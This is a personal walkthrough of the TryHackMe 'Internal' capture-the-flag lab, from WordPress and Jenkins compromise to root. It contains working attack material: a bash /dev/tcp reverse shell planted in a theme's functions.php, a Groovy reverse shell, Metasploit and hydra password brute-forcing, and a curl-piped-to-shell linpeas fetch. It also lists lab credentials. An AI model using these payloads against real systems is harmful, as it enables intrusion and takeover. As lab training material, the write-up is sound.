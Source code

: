 # Internal [TryHackMe]

<sub>_This is a raw write-up. I write these to document important things for myself to use later if I need it. At the time of writing this, I don't even know if I've solved the challenge myself. You might see a flag somewhere titled **<sup>Assisted by [write-up link]</sup>** which means I used someone else's write-up to complete the challenge. Being a responsible learner, I'm trying my best to accept as little help as possible and only when I'm out of ideas._</sub> 

## _Manual Exploitation_

Let's define the `targ3t` variable to reuse later:

```
targ3t=10.10.84.237
```

Let's perform an `nmap` scan and check for open ports:

```
nmap -A -Pn $targ3t -oN nmap.scan
```

Seems like there's only `22/tcp` and `80/tcp` open and operational. I'll launch a complete scan, just in case:

```
nmap -p- $target -oN nmap.full.scan -vv
```

This is supposed to iterate every single port and confirm if its status.

No more open ports, I'll run another scan for vulnerabilities, on these two ports specifically:

```
nmap --script vuln -p 22,80 $targ3t -oN nmap.vuln.scan -vv
```

Only `http-enum` script for port `80` applied and found several paths:

```
| http-enum:
|   /blog/: Blog
|   /phpmyadmin/: phpMyAdmin
|   /wordpress/wp-login.php: Wordpress login page.
|_  /blog/wp-login.php: Wordpress login page.
```

It clearly has a `/blog/wp-login.php`, although `http-wordpress-users` script returned an error:

```
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
```

I guess I can use a `wpscan` to see if there are any further vulnerabilities concerning wordpress specifically:

```
wpscan -e -t 10 --detection-mode aggressive --plugins-detection aggressive --plugins-version-detection aggressive --url $targ3t/blog -o wp.scan -v
```

And I'll also launch a similar one for `$targ3t/wordpress`:

```
wpscan -e -t 10 --detection-mode aggressive --plugins-detection aggressive --plugins-version-detection aggressive --url $targ3t/wordpress -o wp1.scan -v
```

Both scans delivered interesting results. For `/blog` path we get and `xml-rpc` vulnerability and several reference to metasploit modules, as well as an `admin` user's existence through brute-force. Much of the same (except for `admin`) was found on the `/wordpress` path. Both paths have a `readme.html` file accessible.

Now that we have to browse the site, let's add a recommended line to the `/etc/hosts` for this machine:

```
10.10.84.237    internal.thm
```

Now let's go to each `readme.html` file:

```
firefox internal.thm/blog/readme.html
firefox internal.thm/wordpress/readme.html
```

Both files are identical and although they don't link to any vulnerable places, it seems like we shouldn't be seeing this at all. Let's continue with our enumeration:

```
feroxbuster -u http://$targ3t -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -o ferox.scan
```

Some paths are accessible but besides the ones we already had discovered, none particularly stand out. To get back to `xml-rpc` vulnerability discovered by `wpscan`, let's see if we can use this scanner: `auxiliary/scanner/http/wordpress_xmlrpc_login`:

```
msfconsole -q -x "use auxiliary/scanner/http/wordpress_xmlrpc_login; set RHOSTS 10.10.84.237; set TARGETURI /blog; set USERNAME admin; set PASS_FILE /usr/share/wordlists/rockyou.txt; run"
```

And it found a password: 

```
[+] 10.10.84.237:80 - Success: 'admin:my2boys' 
```

And going to:

```
firefox internal.thm/blog/wp-login
```

Opens up an admin interface for this user. Manually enumerating the admin panel tells me it won't let me upload a php file for security reasons and it doesn't let me upload images either, due to an error about writing files to server's indicated directory. Theme editor lets us customize front end along with `functions.php`. I'll give a small edit to this file. I'll add the following line before all of the code:

```
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.11.100.243/9876 0>&1'"); __halt_compiler();
```

Start a `netcat` listener on my machine:

```
nc -lvnp 9876
```

And save this edit and go to `internal.thm/blog`

And we have a `www-data` shell! We can't visit any home directories with it though. Let's see if we have any privileged binaries:

```
find / -perm /4000 2>/dev/null
```

We can't use sudo, so these aren't very useful to us. Let's try linpeas this time:

```
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

I looked through each red string, tried everything, but nothing is worthwhile or working.

<sup>_Assisted by [write-up](https://medium.com/swlh/tryhackme-internal-walkthrough-fdc6c4b569bd):_</sup> I guess we have to run these general commands too from time to time:

```
python -c "import pty; pty.spawn('/bin/bash')"
cd /
find / -type f -name *.txt 2>/dev/null
```

The very first result is `/opt/wp-save.txt`

```
cat /opt/wp-save.txt
```

This returns the user:password pair of one of the users on this machine:

```
ssh aubreanna@internal.thm
```

We're in. There's a `user.txt` file in the home directory:

```
cat user.txt
```

There goes our first flag. There's another file in the directory:

```
cat jenkins.txt
```

It says some `internal Jenkins service is running on 172.17.0.2:8080` Which means it is running as localhost on this server, and only accessible to this server. Let's use SSH tunneling to circumvent this:

```
ssh -L 9876:172.17.0.2:8080 aubreanna@internal.thm
```

Now we need to visit this tunnelled Jenkins service on our local machine:

```
firefox localhost:9876
```

And there it is, the login form. Let's try to brute force it:

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 9876 127.0.0.1 http-post-form '/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid' -V
```

The password for `admin` appears to be `__spongebob__`. Now let's log in.

This part is more or less straightforward, we need to go to a __Script Console__ and inject a reverse shell script in Groovy. In this case I just borrowed one from [PayloadsAllThings](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#groovy):

```
String host="10.11.100.243";
int port=4443;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

And start a reverse shell on our host machine:

```
nc -lvnp 4443
```

And when we hit run at the script console, we get the shell back in netcat. 

Now let's hit the same search command we used previously to get `aubreanna` credentials:

```
find / -type f -name *.txt 2>/dev/null
```

The very first result is `/opt/note.txt`, which discloses `root` password:

```
root:tr0ub13guM!@#123
```

Let's use it to ssh into it:

```
ssh root@internal.thm
```

And once we're in:

```
cat /root/root.txt
```

There goes our root flag!
